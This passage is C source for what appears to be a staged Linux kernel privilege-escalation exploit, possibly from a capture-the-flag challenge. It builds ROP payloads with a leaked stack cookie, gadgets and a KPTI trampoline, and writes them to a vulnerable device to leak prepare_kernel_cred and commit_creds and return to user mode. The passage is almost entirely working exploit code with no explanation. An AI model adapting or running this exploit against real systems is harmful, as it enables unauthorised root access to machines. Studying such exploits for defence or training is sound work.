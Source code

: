 ```c
    payload[off++] = 0;
    payload[off++] = (unsigned long)get_commit_creds;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;

    puts("[*] Prepared payload to leak commit_creds()");
    ssize_t w = write(global_fd, payload, sizeof(payload));

    puts("[!] Should never be reached!");
}

unsigned long prepare_kernel_cred;
void get_prepare_kernel_cred(){
    __asm__ volatile(
        ".intel_syntax noprefix;"
        "mov tmp_store, rax;"
        ".att_syntax;"
    );

    prepare_kernel_cred = ksymtab_prepare_kernel_cred + (int)tmp_store;
    printf("[*] =====> prepare_kernel_cred: %lx\n", prepare_kernel_cred);
    stage_3();
}

/*leak prepare_kernel_cred*/
void stage_2(){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;

    payload[off++] = cookie;
    payload[off++] = 0x0;
    payload[off++] = 0x0;
    payload[off++] = 0x0;
    payload[off++] = PopRaxRet;
    payload[off++] = ksymtab_prepare_kernel_cred - 0x10;
    payload[off++] = Read4ByteRet;
    payload[off++] = 0xdeadbeef;        //pop rbp

    payload[off++] = kpti_trampoline;
    payload[off++] = 0;
    payload[off++] = 0;
    payload[off++] = (unsigned long)get_prepare_kernel_cred;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;

    puts("[*] Prepared payload to leak prepare_kernel_cred()");
    ssize_t w = write(global_fd, payload, sizeof(payload));

    puts("[!] Should never be reached!");
}

unsigned long cred_struct;
void get_cred_sturct(){
    __asm__ volatile(
        ".intel_syntax noprefix;"
        "mov tmp_store, rax;"
        ".att_syntax;"
    );
```